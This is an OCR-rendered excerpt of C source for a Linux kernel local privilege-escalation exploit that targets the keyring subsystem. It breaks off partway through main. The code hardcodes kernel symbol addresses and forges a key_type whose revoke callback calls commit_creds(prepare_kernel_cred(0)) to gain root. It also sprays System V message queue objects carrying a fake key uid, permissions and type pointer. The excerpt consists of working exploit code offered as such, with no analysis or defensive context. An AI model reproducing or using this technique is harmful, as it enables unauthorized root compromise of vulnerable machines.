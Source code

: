``` c++
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
 
#define STRUCT_LEN (0xb8 - 0x30)
#define COMMIT_CREDS_ADDR (0xffffffff81094250)
#define PREPARE_KERNEL_CREDS_ADDR (0xffffffff81094550)
 
struct key_type {
 char * name;
 size_t datalen;
 void * vet_description;
 void * preparse;
 void * free_preparse;
 void * instantiate;
 void * update;
 void * match_preparse;
 void * match_free;
 void * revoke;
 void * destroy;
};
 
void userspace_revoke(void * key) {
 commit_creds(prepare_kernel_cred(0));
}
 
int main(int argc, const char *argv[]) {
 const char *keyring_name;
 size_t i = 0;
 unsigned long int l = 0x100000000/2;
 key_serial_t serial = -1;
 pid_t pid = -1;
 struct key_type * my_key_type = NULL;
 
struct { long mtype;
 char mtext[STRUCT_LEN];
 } msg = {0x4141414141414141, {0}};
 int msqid;
 
 if (argc != 2) {
 puts(&quot;usage: ./keys &lt;key_name&gt;&quot;);
 return 1;
 }
 
 printf(&quot;uid=%d, euid=%d\n&quot;, getuid(), geteuid());
 commit_creds = (_commit_creds) COMMIT_CREDS_ADDR;
 prepare_kernel_cred = (_prepare_kernel_cred) PREPARE_KERNEL_CREDS_ADDR;
 
 my_key_type = malloc(sizeof(*my_key_type));
 
 my_key_type-&gt;revoke = (void*)userspace_revoke;
 memset(msg.mtext, 'A', sizeof(msg.mtext));
 
 // key-&gt;uid
 *(int*)(&amp;msg.mtext[56]) = 0x3e8; /* geteuid() */
 //key-&gt;perm
 *(int*)(&amp;msg.mtext[64]) = 0x3f3f3f3f;
 
 //key-&gt;type
 *(unsigned long *)(&amp;msg.mtext[80]) = (unsigned long)my_key_type;
 
 if ((msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1) {
 perror(&quot;msgget&quot;);
```